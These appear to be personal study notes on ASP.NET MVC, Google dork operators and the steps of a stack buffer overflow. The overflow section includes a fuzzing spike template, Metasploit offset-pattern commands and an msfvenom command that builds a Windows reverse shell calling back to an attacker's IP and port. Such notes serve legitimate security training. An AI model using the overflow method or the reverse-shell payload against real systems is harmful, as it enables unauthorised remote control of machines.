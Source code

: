 ### ASP.NET 

- Views = contains html pages **_.cshtml extension_** = c#html, gets list of data from controller
- Model = data related = classes, sql statements, gives controller with list of objects

## Google Dorks

- site: include only results on a given hostname.
- intitle: filtest according to the title of a page.
- inurl: filters according to url of a resource.
- filetype: filters according to file extensions.
- `-` filters out keywords

## Buffer Overflow BOF

- Main goal is to overflow buffer space to overwrite EIP(Extended Instruction Pointer)

Steps in BOF

- Spiking: Finding vulnerable part of the program
- Fuzzing: Sending characters to the vulnerable part of the program to break it
- Finding Offset: This is where the program crashes
- Overwrite the EIP using the Offset found
- Find the right module
- Shellcode

Tools

- Immunity Debugger
- generic_send_tcp

### Spiking 

- readelf -s `program`

```C
  s_readline();
  s_string("TRUN ");
  s_string_variable("0");
```

### Metasploit module for pattern

```bash
pattern_create.rb -l "bytes"
pattern_offset -l "bytes" -q "what data is in EIP HEX"
```

[Bad Character Checker](https://github.com/cytopia/badchars)

### Finding Modules

- [Finding Modules - Mona](https://github.com/corelan/mona)
- nasm_shell.rb
- `msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT EXITFUNC=thread -f c -a x86 -b "badcharacters"`
